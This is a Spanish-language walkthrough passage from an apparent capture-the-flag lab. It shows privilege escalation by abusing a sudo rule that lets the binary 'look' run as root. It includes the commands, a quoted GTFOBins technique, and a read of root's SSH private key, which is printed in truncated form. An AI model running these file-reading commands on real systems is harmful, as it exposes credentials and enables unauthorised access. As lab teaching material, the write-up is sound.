 Lo siguiente que vamos a hacer es buscar si podemos ejecutar algún comando como `root`:

```sh
sudo -l

# Resultado:

Matching Defaults entries for think on lookup:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User think may run the following commands on lookup:
    (ALL) /usr/bin/look
```

Hacemos la búsqueda del comando `look` en [gtfobins](https://gtfobins.github.io/gtfobins/look/) y encontramos lo siguiente:

***

**Sudo**

Si al binario se le permite ejecutarse como superusuario mediante `sudo`, este no descarta los privilegios elevados y puede ser utilizado para acceder al sistema de archivos, escalar o mantener el acceso privilegiado.

**Ejemplo:**

```bash
LFILE=archivo_a_leer
sudo look '' "$LFILE"
```

***

```
Explicación

Este texto describe una técnica de **escalada de privilegios** en sistemas tipo Unix/Linux.

- Explica que si el comando `look` está configurado en el archivo `sudoers` para ser ejecutado por un usuario, este usuario puede abusar de ese permiso.
    
- El comando `look` se usa normalmente para buscar líneas en un archivo que comienzan con una cadena de texto.
    
- En el ejemplo, `sudo look '' "$LFILE"` se ejecuta con privilegios de superusuario. Se le pasa una cadena de búsqueda vacía (`''`) y el nombre de un archivo (`$LFILE`). Como el comando no pierde los privilegios de `sudo`, puede leer cualquier archivo del sistema, incluso aquellos que el usuario normalmente no podría ver (como `/etc/shadow`).
```

En base a esto, como podemos leer archivos con permisos `root`, podemos ingresar y leer `/root/.shh/id_rsa`, de esta manera tener su clave `rsa` y conectarnos a través de `SSH`:

```sh
sudo /usr/bin/look '' "/root/.ssh/id_rsa"

#Resultado:

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAA
...
DgTNYOtefYf4OEpwAAABFyb290QHVidW50d
-----END OPENSSH PRIVATE KEY-----
```
